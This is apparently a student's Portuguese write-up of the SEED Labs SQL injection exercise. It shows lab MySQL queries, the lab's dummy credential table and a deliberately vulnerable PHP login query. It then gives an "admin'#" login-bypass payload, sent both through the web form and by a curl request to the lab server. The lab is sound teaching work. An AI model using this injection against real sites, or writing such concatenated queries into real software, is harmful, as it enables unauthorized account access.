


# SEED Labs - Web SQL Injection

## Task 1 - Get Familiar with SQL Statements

Primeiro, fizemos login no MySql com o username ***root*** e password ***dees***.

```
[11/19/22]seed@VM:~/.../Labsetup$ dockps
6074ccf2f4d9  www-10.9.0.5
0cc64c426c3e  mysql-10.9.0.6
[11/19/22]seed@VM:~/.../Labsetup$ docksh 0c
root@0cc64c426c3e:/# mysql -u root -pdees
mysql: [Warning] Using a password on the command line interface can be insecure.
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 9
Server version: 8.0.22 MySQL Community Server - GPL

Copyright (c) 2000, 2020, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use sqllab_users;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+------------------------+
| Tables_in_sqllab_users |
+------------------------+
| credential             |
+------------------------+
1 row in set (0.00 sec)
```

De seguida, usamos comandos SQL para imprmir toda a informação da Alice (employee).

```
mysql> SELECT * FROM credential;
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
|  2 | Boby  | 20000 |  30000 | 4/20  | 10213352 |             |         |       |          | b78ed97677c161c1c82c142906674ad15242b2d4 |
|  3 | Ryan  | 30000 |  50000 | 4/10  | 98993524 |             |         |       |          | a3c50276cb120637cca669eb38fb9928b017e9ef |
|  4 | Samy  | 40000 |  90000 | 1/11  | 32193525 |             |         |       |          | 995b8b8c183f349b3cab0ae7fccd39133508d2af |
|  5 | Ted   | 50000 | 110000 | 11/3  | 32111111 |             |         |       |          | 99343bff28a7bb51cb6f22cb20a618701a2c2f58 |
|  6 | Admin | 99999 | 400000 | 3/5   | 43254314 |             |         |       |          | a5bdf35a1df4ea895905f6f6618e83951a6effc0 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
6 rows in set (0.00 sec)

mysql> SELECT * FROM credential WHERE Name='Alice';
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
| ID | Name  | EID   | Salary | birth | SSN      | PhoneNumber | Address | Email | NickName | Password                                 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
|  1 | Alice | 10000 |  20000 | 9/20  | 10211002 |             |         |       |          | fdbe918bdae83000aa54747fc95fe0470fff4976 |
+----+-------+-------+--------+-------+----------+-------------+---------+-------+----------+------------------------------------------+
1 row in set (0.00 sec)

```

## Task 2: SQL Injection Attack on SELECT Statement

O seguinte código dentro do unsafe_home.php, contém uma vulnerabilidade.

```
$input_uname = $_GET[’username’];
$input_pwd = $_GET[’Password’];
$hashed_pwd = sha1($input_pwd);
...
$sql = "SELECT id, name, eid, salary, birth, ssn, address, email,nickname, Password
        FROM credential
        WHERE name= ’$input_uname’ and Password=’$hashed_pwd’";
$result = $conn -> query($sql);
// The following is Pseudo Code
if(id != NULL) {
    if(name==’admin’) {
        return All employees information;
    } 
    else if (name !=NULL){
        return employee information;
    }
} 
else {
    Authentication Fails;
}
```

### Task 2.1: SQL Injection Attack from webpage

Se inserirmos no username uma string com o formato  "string'#", fechamos a string e o resto do código seguinte é comentado até ", sendo que o código fica sem erros.
Com a informação anterior, conseguimos fazer login como sendo admin, sem precisar da password:



Depois de fazer login, obtemos a seguinte informação:



### Task 2.2: SQL Injection Attack from command line

```curl 'www.seed-server.com/unsafe_home.php?username=admin%27%23&Password='```
